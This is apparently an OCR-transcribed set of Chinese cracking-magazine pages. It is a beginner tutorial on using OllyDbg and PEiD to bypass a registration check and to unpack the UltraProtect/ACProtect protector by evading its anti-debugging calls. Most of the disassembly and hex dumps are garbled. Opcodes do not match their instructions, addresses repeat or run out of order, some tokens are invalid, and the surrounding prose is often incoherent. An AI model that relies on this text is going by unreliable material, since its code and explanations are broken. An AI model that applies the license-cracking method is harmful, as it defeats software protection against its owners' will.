如所示：改 `Server2.exe` 为 CSSERVER 在缓存中加载。加载到 Client，用 OD 运行的服务器，这里的内存不再被隐藏。成功！

适合初学者使用，OD 的用法：


# “外挂插件环境”

很多遇到过非常简单，刚开始就学会了“外挂”插件。打开它，运行一次就会发现处但是要注意技巧，靠真的破解了。先准备工具 ASM。这个软件很好用，过了之后用了 OD 搜索，通过调试创建了一个插件，新的插件已经在电脑里运行了，同时在调试用 PeID 描，如图所示。

| PEID v0.93 | `Documents and Settings(reg.exe)` | |
| :--- | :--- | :--- |
| 入口: `0041B67` | | |
| 文件名: `00110A7` | | |
| 资源: `85,88,EC,55` | | |
| 版本: 6.0 | | |
| 系统: Win32 | | |
| Microsoft Visual C++ 6.0 (Developer) | | |
| 多线程调试 | | |
| 编译器 | | |
| 查看 | | |
| 出 | | |

图 1、图 2：我们用 OD 的添加过程。打开它，一路走，用 PeID 发现了它，每个机器是不一样的，过了之后，这个路径就可以了，有些插件为了调试创建了插件。这时你试一下 OD 的“添加功能”，反正就可以了。随便输入字符串98765431，这时显示错误所示。www.hacker.com 飞星（黑客防护）2007 所有

# SECT OF CRACK

OD 加载，修改字符串校验失败，在 `0050FE84` 断点：

```
0050FE84 ED34BFF CALL wdll.exe:0050A54 ; 在此处，跳转到分析
0050FE90 84 TEST_AL
0050FE9B 75C JNZ SHORT;word.exe:0050FB9 ; 循环结束
0050FEA4 84 LEA EDX,PTR SS:[ESP-4]
0050FEB0 A4 BF70FF50 MOV EDX,ec.exe
0050FEBB 40 JMP ;;如果不成功，跳转继续
0050FEC9 6F78FF50 PUSH wdll.exe:0050F70 ; 调试无视；断点：我在这里，用 PB 进去的。
0050FA5C 55 PUSH EBX
0050FA59 84 DB MOV EDX,PTR SS:[ESP-4]
0050FA61 E3E2F2DFF CALL wdll.exe:004004E3 ; 得到返回值
0050FA66 34B3 50 PTR SS:[ESP+5]
0050FA9A 70C0 JNZ SHORT;wdll.exe:0040A6B
0050FAAD 84F8 MOV EDX,PTR SS:[ESP-4] ; 我们在这里下点
0050AAE3 E1B8F2DFF CALL wdll.exe:00400452
0050AAE8 83C50 TEST_EAX
0050AE9B 75 04 JNZ SHORT;wdll.exe:0040A38
0050AE9F 8E 55 JMP SHORT;wdll.exe:00500A60
0050AEBD 85F4 LEA EDX,PTR SS:[ESP-4]
0050B0CE 84F8 MOV EDX,PTR SS:[ESP-4]
0050B1C1 73E27FF CALL wdll.exe:00400Y38
0050B1AC 85F4 MOV EDX,PTR SS:[ESP-4]
0050B2D8 84F8 LEA EDX,PTR SS:[ESP-4]
0050B2E3 ED8B8FF50 CALL wdll.exe:ecx
0050B2F0 81D0 40 LEA EDX,PTR ECX
0050B304 85F4 MOV EDX,PTR SS:[ESP-4]
0050B317 A7D33 MOV EAX,EBX
0050B31B 6EBF7FF0 PUSH EBX ; 这里下点
0050B454 55 PUSH EBX
0050B46C E8F9F0F0 CALL wdll.exe:00500515 ; 调试到程序开始点
```

这个调试器从 `000003DE76` 开始运行并在 7 个点后把堆栈挂载在两个线程中，形成一个新的字符串指针，然后进行操作，最后得出结果 `D56653D7`，然后通过调试器运行并形成正确的偏移量`000056B5D7`。

```
00500434 55 PUSH EBX
```

```
0050046C E8F9F0F0 CALL wdll.exe:00500515
```

© (2022) 萌萌所有 | 精防黑术 上版

# SECRET OF CRACK

```
005042C C75 F0 00000000-MOV DWORD PTR SS
00504F3 C75 F4 00000000-MOV DWORD PTR SS
005048EA 88 B5 MOV EAX PTR SS[ESP-4]
00504D7 88 E2 EFFFF call_wgg.exe00504A8
005044E1 88 B4 CMP EAX PTR SS[ESP-4]
00504705 75 B0 JG call_wgg.exe00504A7
00504707 88 B5 MOV EAX PTR SS[ESP-4]
005047B1 75 D0 JG call_wgg.exe0050470
0050471A 88 B5 call_wgg.exe00504A3
0050471B 99 00000000-IMP call_wgg.exe00503D7
00504720 88 B5 MOV EAX PTR SS[ESP-4]
00504723 88 FF call_wgg.exe00504EFE
0050472A 38 87 JMP call_wgg.exe0050473
005047FD 03 60 CMP EAX PTR SS[ESP-4]
00504735 13 56 64 ADD EAX PTR SS[ESP-4]
00504739 52 PUSH EDX
0050473A 88 B0 MOV EAX PTR SS[ESP-8]
0050474B 88 F7 MOV EAX,BYTE
00504752 50 PUSH ESP
00504753 84 00000000-MOV EAX,459
0050475A 50 PUSH ESP
0050475B BC MOV EAX,ECX
0050475C 33 22 XOR EDX,EDX
0050475D F1 PUSH EDI
00504760 88 C2 MOV EAX,EDX
00504771 33 22 XOR EAX,EAX
0050477C 88 B4 04-MOV DWORD PTR SS[ESP-4]
00504775 85 94 MOV EAX PTR SS[ESP-10]
00504795 89 F0 MOV EAX PTR SS[ESP-10]
0050479C 46 76 DEC EAX
005047A6 E8 79FEE call_wgg.exe00504E54
```

这里的调试结果`Eax=D5667D` 根据机器的地址是`0000A3DE679` 每个机器的地址都是唯一的。

```
00504768 38 83 ??CMP EAX,EAX
0050479D 75 F0 JG call_wgg.exe0050473
005047A0 78 JG call_wgg.exe0050472C
005047B7 89 ??-PUSH EAX
005047C9 86 ??处理参数
005047D0 78 55 F4.PUSH DWORD PTR SS[ESP-4]
005047D1 75 B0 JG call_wgg.exe0050478
005047D9 89 ??MOV EAX,ECX
005047E1 88 ??-PUSH EAX
005047F0 69 00000000
005047F4 83 EFFFF call_wgg.exe00504A64
005047F9 69 ??-MOV EAX,EAX
00507500 00 00000000
00507503 79 ??-MOV EAX,DWORD DS[EDI]
0050750C 48 E3 FFEFE call_wgg.exe00504B5E
00507514 88 ??-MOV EAX PTR SS[ESP-8]
0050751A 88 ??-处理参数
00507520 89 ??-MOV EAX,ECX
00507524 88 ??-MOV EAX
00507528 89 ??-MOV EAX,EDI
00507530 55 ??-PUSH EDX
00507531 55 ??-PUSH EAX
00507532 88 ??-MOV EAX,ECX
00507536 09 ??-OR EDX,EDX
00507537 74 ??-JG call_wgg.exe005049B8
0050753E C3 ??-RET
00507540 83 40-MOV EAX PTR SS[ESP-8]
00507544 02 ??-OR EDX,EDX;这里的参数是不是正确了？
00507547 74 ??-JG call_wgg.exe005049B4
0050754A C3 ??-RET
00507550 8B ??-MOV EAX,DWORD PTR SS[ESP-4]
00507554 8B ??-处理参数的个数是9
00507558 89 ??-MOV EAX,ECX
0050755C 33 33-CMP EAX,EAX
0050755E 89 ??-MOV EAX,ECX
00507563 F3 ??-REPE CMP EAX PTR DS[EDI]
00507567 B8 ??-不要，试试，还是不对？
0050756D 74 ??-JG call_wgg.exe005049B0
00507570 C3 ??-RET
```

# 调试结果

看到每一个地址后，但是只有我注册了的，作者的思想和自己对比一下，效果更好呢！如果我去查看它，我会怎么办呢？这些都是我考虑过的思路了。

# SECRET OF CRACK

适合初级破解者爱好者

前置处理 OllyD使用方法

# UltraProtect

# 反汇编 调试与调试


2003年2月，一款名为`UltraProtect`的国产软件进入了加密者的领域。这款软件的破解者是`risco`，他现在处于加密领域的最前线——看到这种加密以加密者的身份与破解高手交手，这使得国内加强加密技术的增长速度，快之易见。

`UltraProtect`——这是一款独特的加密软件，也让这些难题得到了攻克。`UltraProtect`正是名为`ACProtect`（`AC Crack`）的插件，它很多地方让加密者害怕。由于`ASProtect`的出现，由于是`ACProtect`却破解了`ASProtect`的防护，这使得世界上范围的升级，它让`ACProtect`终于带来了升级。

`ACProtect`的出现，让加密技术的进步取得了进展，完美解决了各种难题。本文将对`AC`和`AT`的破解方法进行详细介绍。`ACProtect`的破解过程非常复杂，因为它有层层外壳防护，但最终的强力和独特性使得它无从被破解。

# UltraProtect

在`UltraProtect`面前，反汇编的调试方法其实并不太好用。事实上，`ACProtect`的调试器并没有技术效果，反而变得更加强大。`OllyD`的技术进步正是这些调试器的结果，使得`ACProtect`的破解过程是非常困难的。本文将以`v1.5`版本，详细介绍`AC`的破解方法。

`OllyD`和`AC.exe`。我们将尝试破解调试中的`n3`、`INT`以及跳转指令，避免调试器产生冲突，并用`Debugger`设置断点，点击下方的`ACProtect`运行，找到它的调试地址。

这是`UltraProtect`开始外壳所调用的API函数。通过`UltraProtect`调试来破解该函数，由于是加壳之后，这些函数仍然被调用，我们需要重写平台以满足必须的初始化函数，其中包括重装新的API函数，破解此时的特征。

```
0012F8B4 0004761D // CALL to GetProcessAddress
From UltraProtect
```

```
0012F8B8 7C000000 (jModule = 7C000000 (kernel32))
004B6ECA ECA /ProcNameOrderOrOrdinal = "GlobalAlloc"
0012F9A0 0402019 U-Protect,0042039
0047607 8B85 88560000 MOV EAX,DRD
004760CC 8038 CMP BYTE EC
004760D -- <AddGetProcess> > Get
D58E1A6C -->这就是我们所用的方法的结束了。UltraProtect
0046710 74 10 J SHORT
0046712 90 POP
0046714 90 POP
0046715 90 POP
0046716 55 EAX
004671F7 F9F 88E20000 CALL PTR SSB //<AddGetProcess>Es / 19 JMP
004673E8 <==跳转到AC保护的地址
```

在数据段中找到`00486ECA`，将会会有小的出现：

```
0046C7A 42 6C 65 61 6E 6F 62 6C 6F 63 63 66 6C 6C GlobalAlloc.Globaloc
0046B2D 61 66 66 72 65 6E 74 69 75 73 74 73 73 72 72 65
004675A 74 68 73 73 79 73 74 63 73 63 64 64 65 71 Process.Create
0046F5A 64 6F 76 68 65 64 6F 66 70 73 73 73 73
0046710 74 68 73 60 60 63 63 73 73 73 73 73 72 62 InProcess.2\n0467F3A 73 70 61 63 63 63 63 73 73 73 73 73 73 33\00460 33 63 63 63 63 63 63 63 66 66 66 66 66 66 66
0046F3A 74 65 72 6D 69 6E 61 74 65 64 73 73 73 73 73
0046F7A 67 68 73 73 75 73 73 73 73 73 73 68 65 65
00468E8 75 65 6E 74.Present.
0046B6A 64 6F 75 63 64 65 74 64 64 64
0046A4C 68 65 72 65 76 6C 65 WriteFile.File
```

# SECRET OF CRACK

```
45 78 63 74 61 75 69 74 65 64 63 75 73
0004B6AA 55 70 73 74 68 65 66 6C 64 65 72
0004B69 73 74 6F 72 46 69 6C 64 65 72
0004B0BA 54 68 75 74 20 43 6F 6E 74 65 74 20 74 73
0004C4CA 54 68 75 74 20 43 6F 6E 74 65 74 20 74 73
00047367 74 74 64 64 64 64 74 64 64 65 74 74 64 64 74 64 64 64 64 64 64 64 64 64 60 60 60 60 60 60 60 00 00 00 00 60 60 00
0004B88 55 53 35 55 32 33 38 42 45 45 45
0004B99 69 6E 74 65 72 20 61 74 65 73 74 20 64 65 74 74 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 64 74 64 64 64 64 60 60 60 74 70 60 70 70 60 60 70 70  70 70 70 70  00 00 00 70 70 70 70 70 70 70 70  00700 00 70 70 70 70 70 70 70 70 70 70 70 70 70  00 00 00 00 00 00 00 00 00 00 00 00 00 00000
```

`CreateTool32Snapshot`、`IsDebuggerPresent`、`TerminateProcess`这些是常用的反调试函数，如果在一个循环中多次调用这些函数，可能会将自己的调试器暴露。

下点`CreateTool32Snapshot+2::FromProcess`，通过系统挂钩调试函数，这种方法是通用的，但是不能修改调试器返回的句柄，为了重用`CreateTool32Snapshot`的API，使用`Alt+F`来绕过检测。

```
0004F78 73 73 64 31 45 35 34 64 6f 77 00 00 00 00 00 00 00 00
0004F88 55 50 53 58+ 58 50 00 00 00 00 00 00 00 00 00 00 00 00
0004F98 61 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004FA8 55 50 53 58+ 58 50 00 00 00 00 00 00 00 00 00 00 00 00
0004FB8 69 64 64 00 00 00 00 00 00 00 00 00 00 00 00
0004FC8 64 74 61 64 64 00 00 00 00 00 00 00 00 00 00
0004FD8 59 59 00 00 00 00 00 00 00 00 00 00 00 00
0004FE8 55 50 53 58+ 58 50 00 00 00 00 00 00 00 00 00 00 00
0004FF8 65 64 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005008 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005018 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005028 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005038 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005048 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005058 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005068 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005078 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005088 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005098 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00050A8 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00050B8 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00050C8 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00050D8 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00050E8 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
00050F8 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005108 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005118 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005128 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005138 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005148 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0005158 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

通过断点来跳过函数：

```
0004B76 45 78 63 74 71 73 00 00 00 00 00 00 00 00 00 00
0004B77 90 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B78 FF 77 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B79 42 66 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B7A 46 43 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B7B 45 53 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B7C 46 43 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B7D 49 4E 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B7E 49 43 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B7F 45 4A 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B80 45 4A 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B81 42 53 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B82 45 53 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B83 42 46 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B84 42 46 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B85 42 53 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B86 45 4A 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B87 45 4A 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B88 42 42 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B89 45 53 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B8A 45 4A 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B8B 42 46 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B8C 42 53 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B8D 42 46 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B8E 45 4A 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B8F 45 4A 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

汇编代码：


```
0004B70 90 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B71 90 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B72 90 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B73 42 66 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B74 46 43 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B75 45 53 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B76 46 43 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B77 FF 77 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B78 42 66 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B79 49 4E 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B7A 49 43 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B7B 45 53 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B7C 46 43 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B7D 49 4E 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B7E 45 43 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B7F 45 4A 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B80 45 4A 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B81 42 53 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B82 45 53 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B83 42 46 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B84 42 46 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B85 42 53 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B86 45 4A 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B87 45 4A 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B88 42 42 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B89 45 53 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B8A 45 4A 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B8B 42 46 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B8C 42 53 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B8D 42 46 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B8E 45 4A 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
0004B8F 45 4A 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

这里的汇编代码就是UltraProtect保护的调试程序，通过修改当前线程的上下文寄存器，UltraProtect可以检测到调试器的存在，从而退出。我们可以尝试修改其中一个寄存器

# SECRET OF CRACK

```
52 4F MIRTY EDITOR.FORG C1F9 SHR ECX2
0048B756 53 49 53 05 00 53 0D 25 50 49 4E 53
0048B8D3 53 E802 SUB ECX2
50 45 53 43;SIZE WINSPEC F39P CMP,ECX
0048B0D6 7CA IL SHORT 00B0A5
0048B756 53 42 00 45 0D 49 42 50 52 59 74 53
0048B0D6 88 BC04 MOV,EWD,PRTR
0D 50 40 7C;MEMORY_DUMP DUMP
[ESS+ECX*4]
0048B756 45 42 00 45 0D 49 42 50 52 59 4D
0048B0D6 88 BC04 MOV,EWD,PRTR
05 52 50 02;RIM,MONITOR
0048B756 48 45 00 45 47 41 20 50 52 59 49 43
0048B0D6 88 BC04 MOV,EWD,PRTR
20 45 2C 4A;NUM;SUB,ECX
0048B756 44 45 00 45 52 50 59 52 74 53 43 46
0048B0D6 88 BC04 MOV,EWD,PRTR
56 53 32 23;HARD,TEST,WOT
0048B756 44 48 41 43 0D 47 00 45 49 49 49 53
0048B0D6 88 BC04 MOV,EWD,PRTR
57 48 54 5D;GENERIC,WTC
0048B756 48 45 06 43 04 43 44 4B 44 45 50 50
0048B0D6 88 BC04 MOV,EWD,PRTR
05 50 0D
0048B756 48 43 49 48 0D 41 43 41 43 43 49 53
0048B0D6 88 BC04 MOV,EWD,PRTR
52 48 52 20 27 49 5A;HAKING,CRACK
0048B756 55 30 05 30 0D 30 00 55 66 79 74 61 72
0048B0D6 88 BC04 MOV,EWD,PRTR
64 00 58-Out=Clip;Quit
00200000
```

如果一个注册名列表失败，它将导致当前测试并退出UltraProtect。如果退出UltraProtect后测试就不会继续，除非注册了回调函数在UltraProtect运行时执行的，失败是注册者的责任（这通常会导致异常）

```
0048B0E4 B9 51D900 MOV,ECX
[ecx+20D3];
0048B0D1 03 ADD EAX,ESP
0048B03F 51 PUSH EAX
0048B0F3 59 PUSH DUMP,PRTR
[ESP+EAX*4];
0048B7A5 F9 52D000 CALL DUMP,PRTR
跳转下一个函数
0048B0D8 E0 90 JMP SHORT EAX
0048B040 B9 51D900 MOV,ECX
; 注册回调函数
0048B0E4 03 ADD EAX,ESP
0048B0D1 51 PUSH EAX
0048B0F3 59 PUSH DUMP,PRTR
[ESP+EAX*4];
0048B7A5 F9 52D000 CALL DUMP,PRTR
; 获取当前回调函数
0048B0A4 50 PUSH EAX
0048B0A8 6A 00 PUSH 0
0048B0A1 61 CALL
0048B754 89 52D000 CALL DUMP,PRTR
[ESP+EAX*4];
0048B0D3 50 PUSH EAX
0048B0D7 6A 00 PUSH 0
0048B0D0 61 CALL
0048B7A5 89 52D000 CALL DUMP,PRTR
[ESP+EAX*4];
; 下一个回调函数
0048B064 50 PUSH EAX
0048B068 6A 00 PUSH 0
0048B061 61 CALL
0048B7A5 89 52D000 CALL DUMP,PRTR
[ESP+EAX*4];
0048B074 50 PUSH EAX
0048B078 6A 00 PUSH 0
0048B071 61 CALL
0048B7A5 89 52D000 CALL DUMP,PRTR
[ESP+EAX*4];
```

如果注册了同名的函数容易出错，注册该函数可能会冲突，再次注册会在`Tool32`之后找到

```
00487AF2 50 PUSH EAX
00487AF6 59 MOV,EWD,PRTR
[ESP+EAX*4];GetCurrent(Process) -> 获取回调函数
00487BA9 80 DEC,ECX
00487B03 19 JMP SHORT 00487B0E
00487AF2 50 PUSH EAX
00487AF7 90 NOP
00487AF0 90 NOP
00487B52 50 PUSH EAX
00487B56 59 MOV,EWD,PRTR
[ESP+EAX*4]; CALL DUMP,PRTR
00487B59 19 JMP SHORT 00487B24
00487BC0 80 DEC,ECX
00487BC4 90 NOP
00487BC7 90 NOP
00487BD2 50 PUSH EAX
00487BD6 60 PUSH
00487CE9 83 29C000 MOV,ECX
[ESP+EAX*4];GetCurrent(WinAPI)
00487B15 89 260000 MOV,ECX
00487B1A 88 FF CALLGetCurrent
00487B1D 5A STOS,EDI,EDI
; 注册新的函数，注册API
00487B22 20 F8 CALL SHORT 00487B22
00487B26 61 POP
00487B23 50 PUSH EAX
00487B27 59 MOV,EWD,PRTR
00487B2A 89 51D900 MOV,ECX
00487B2E 88 51D900 MOV,ECX
[ESP+EAX*4];GetCurrent(Process) 0x32-128
00487B34 6A 00 PUSH 0
```

这段代码注册了当前的函数。如果为第一次注册名，那么在接下来的处理中，我们会遇到UltraProtect测试期间更严格的检查，如果有错误将通过普通输出：

# SECRET OF CRACK

联系邮箱(cefire) | hacker@hacker.com

```
004B7B36 6A 02 PUSH EAX
004B7B38 55204A00 PUSH [EBP]
004B7B39 8B7D2A00 MOV EAX,EDX
F5 SS:[EESP]+AddCreateTool32(dword)
004B7B3B 837FF CMP EDI,FF
004B7B3D 75F0 JMP 入口点
004B7B40 78047B54 SHORT 004B7B54
004B7B42 8B752400 MOV [EBP],EAX
004B7B44 90 90 NOP NOP
004B7B46 78047B40 SHORT 004B7B40
004B7B48 8B752800 MOV [EBP],EAX
004B7B4A 55204A00 PUSH [EBP]
004B7B4C E5D44000 CALL DWORD PTR
F5 SS:[EESP]+AddCreateTool32(dword)
E8 ADD EAX,ECX
004B7B50 78047B4C SHORT 004B7B4C
004B7B52 89752C00 MOV [EBP],EAX
004B7B54 90 90 NOP
004B7B56 78047B50 SHORT 004B7B50
004B7B58 8B752000 MOV [EBP],EAX
004B7B5A 55204A00 PUSH [EBP]
004B7B5C F5D4400 CALL DWORD PTR
F5 SS:[EESP]+AddCreateTool32(dword)
E8 ADD EAX,ECX
004B7B5E 78047B54 SHORT 004B7B54
004B7B60 89751800 MOV [EBP],EAX
004B7B62 90 90 NOP
004B7B64 78047B58 SHORT 004B7B58
004B7B66 8B751400 MOV [EBP],EAX
004B7B68 55204A00 PUSH [EBP]
004B7B6A F5D4400 CALL DWORD PTR
F5 SS:[EESP]+AddCreateTool32(dword)
E8 ADD EAX,ECX
004B7B6C 78047B68 SHORT 004B7B68
004B7B6E 89751000 MOV [EBP],EAX
004B7B70 90 90 NOP
004B7B72 78047B6C SHORT 004B7B6C
004B7B74 8B750C00 MOV [EBP],EAX
004B7B76 55204A00 PUSH [EBP]
004B7B78 F5D4400 CALL DWORD PTR
F5 SS:[EESP]+AddCreateTool32(dword)
E8 ADD EAX,ECX
004B7B7A 78047B74 SHORT 004B7B74
004B7B7C 89750800 MOV [EBP],EAX
004B7B7E 90 90 NOP
004B7B80 78047B78 SHORT 004B7B78
004B7B82 8B750400 MOV [EBP],EAX
004B7B84 55204A00 PUSH [EBP]
004B7B86 F5D4400 CALL DWORD PTR
F5 SS:[EESP]+AddCreateTool32(dword)
E8 ADD EAX,ECX
004B7B88 78047B84 SHORT 004B7B84
004B7B8A 89750000 MOV [EBP],EAX
004B7B8C 90 90 NOP
004B7B8E 78047B88 SHORT 004B7B88
004B7B90 837FF CMP EDI,FF
004B7B92 75F0 JMP 入口点
004B7B94 004B7B36 6A 02 PUSH EAX DWORD PTR
F5 SS:[EESP]+AddCreateTool32(dword)
E8 ADD EAX,ECX
004B7B96 78047B92 SHORT 004B7B92
004B7B98 89752A00 MOV [EBP],EAX
004B7B9A 90 90 NOP
004B7B9C 78047B98 SHORT 004B7B98
004B7B9E 8B752400 MOV [EBP],EAX
004B7BA0 55204A00 PUSH [EBP]
004B7BA2 F5D4400 CALL DWORD PTR
F5 SS:[EESP]+AddCreateTool32(dword)
E8 ADD EAX,ECX
004B7BA4 78047B40 SHORT 004B7B40
004B7BA6 89752800 MOV [EBP],EAX
004B7BA8 90 90 NOP
004B7BAA 78047B44 SHORT 004B7B44
004B7BAC 8B752C00 MOV [EBP],EAX
004B7BAE 55204A00 PUSH [EBP]
004B7BB0 F5D4400 CALL DWORD PTR
F5 SS:[EESP]+AddCreateTool32(dword)
E8 ADD EAX,ECX
004B7BB2 78047B4C SHORT 004B7B4C
004B7BB4 89752400 MOV [EBP],EAX
004B7BB6 90 90 NOP
004B7BB8 78047B50 SHORT 004B7B50
004B7BBA 8B752000 MOV [EBP],EAX
004B7BBC 55204A00 PUSH [EBP]
004B7BBE F5D44000 CALL DWORD PTR
F5 SS:[EESP]+AddCreateTool32(dword)
E8 ADD EAX,ECX
004B7BC0 78047B54 SHORT 004B7B54
004B7BC2 89751800 MOV [EBP],EAX
004B7BC4 90 90 NOP
004B7BC6 78047B58 SHORT 004B7B58
004B7BC8 8B751400 MOV [EBP],EAX
004B7BCA 55204A00 PUSH [EBP]
004B7BDC F5D44000 CALL DWORD PTR
F5 SS:[EESP]+AddCreateTool32(dword)
E8 ADD EAX,ECX
004B7BD0 78047B60 SHORT 004B7B60
004B7BD2 89750C00 MOV [EBP],EAX
004B7BD4 90 90 NOP
004B7BD6 78047B6C SHORT 004B7B6C
```


```
004B7BD8 8B750800 MOV [EBP],EAX
004B7BDA 55204A00 PUSH [EBP]
004B7BDC F5D44000 CALL DWORD PTR
F5 SS:[EESP]+AddCreateTool32(dword)
E8 ADD EAX,ECX
004B7BE4 78047B74 SHORT 004B7B74
004B7BE6 89750400 MOV [EBP],EAX
004B7BE8 90 90 NOP
004B7BEA 78047B78 SHORT 004B7B78
004B7BEC 8B750000 MOV [EBP],EAX
004B7BDE 55204A00 PUSH [EBP]
004B7BF0 F5D44000 CALL DWORD PTR
F5 SS:[EESP]+AddCreateTool32(dword)
E8 ADD EAX,ECX
004B7BF2 78047B80 SHORT 004B7B80
004B7BF4 837FF CMP EDI,FF
004B7BF6 75F0 JMP 入口点
004B7BF8 004B7B36 6A 02 PUSH EAX DWORD PTR
F5 SS:[EESP]+AddCreateTool32(dword)
E8 ADD EAX,ECX
004B7BF0 78047B92 SHORT 004B7B92
004B7BF2 89752A00 MOV [EBP],EAX
004B7BF4 90 90 NOP
004B7BF6 78047B98 SHORT 004B7B98
004B7BF8 8B752400 MOV [EBP],EAX
004B7FCA 55204A00 PUSH [EBP]
004B7FCC F5D44000 CALL DWORD PTR
F5 SS:[EESP]+AddCreateTool32(dword)
E8 ADD EAX,ECX
004B7FD0 78047B4C SHORT 004B7B4C
004B7FD2 89752800 MOV [EBP],EAX
004B7FD4 90 90 NOP
004B7FD6 78047B44 SHORT 004B7B44
004B7FD8 8B752C00 MOV [EBP],EAX
004B7FEA 55204A00 PUSH [EBP]
004B7FE2 F5D44000 CALL DWORD PTR
F5 SS:[EESP]+AddCreateTool32(dword)
E8 ADD EAX,ECX
004B7FE4 78047B54 SHORT 004B7B54
004B7FE6 89751800 MOV [EBP],EAX
004B7FE8 90 90 NOP
004B7FEA 78047B58 SHORT 004B7B58
004B7FEC 8B751400 MOV [EBP],EAX
004B7F0 55204A00 PUSH [EBP]
004B7FF2 F5D44000 CALL DWORD PTR
F5 SS:[EESP]+AddCreateTool32(dword)
E8 ADD EAX,ECX
004B8004 78047B60 SHORT 004B7B60
004B8006 89750C00 MOV [EBP],EAX
004B8008 90 90 NOP
004B800A 78047B6C SHORT 004B7B6C
004B800C 8B750800 MOV [EBP],EAX
004B800E 55204A00 PUSH [EBP]
004B8010 F5D44000 CALL DWORD PTR
F5 SS:[EESP]+AddCreateTool32(dword)
E8 ADD EAX,ECX
004B8012 78047B74 SHORT 004B7B74
004B8014 89750400 MOV [EBP],EAX
004B8016 90 90 NOP
004B8018 78047B78 SHORT 004B7B78
004B801A 8B750000 MOV [EBP],EAX
004B801C 55204A00 PUSH [EBP]
004B801E F5D44000 CALL DWORD PTR
F5 SS:[EESP]+AddCreateTool32(dword)
E8 ADD EAX,ECX
```

# (黑精灵)2007 破解副本 上

## SECRET OF CRACK

```
004B7C32 90      NOP
004B7C33 90      NOP
004B7C34 90      NOP
004B7C35 60      PUSH
004B7C36 88 ED 39203400 LEA EDI,EDWORD
